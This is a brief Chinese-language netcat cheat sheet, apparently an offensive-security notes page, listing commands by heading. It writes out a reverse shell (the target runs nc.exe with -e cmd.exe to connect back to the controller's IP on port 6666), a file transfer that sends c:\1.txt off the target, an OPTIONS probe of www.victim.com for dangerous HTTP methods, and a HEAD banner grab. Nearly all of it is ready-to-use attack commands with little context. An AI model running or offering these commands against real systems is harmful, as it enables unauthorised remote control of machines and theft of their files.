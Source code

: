 ### 反弹shell
```
靶机：nc.exe -vv 控制端IP 6666 -e  c:\windows\system32\cmd.exe
控制机：nc -lvp 6666
```
### 传输文件
```
控制机：nc -l 6666 >1.txt
靶机：nc 控制端IP 6666 < c:\1.txt
```
### 手工测试目标是否允许危险的请求方式：put、move、options
```
nc.exe www.victim.com 80
OPTIONS / HTTP/1.1
Host: www.victim.com
```
### 查看web服务信息
```
nc.exe www.victim.com 80
HEAD / HTTP/1.0
```
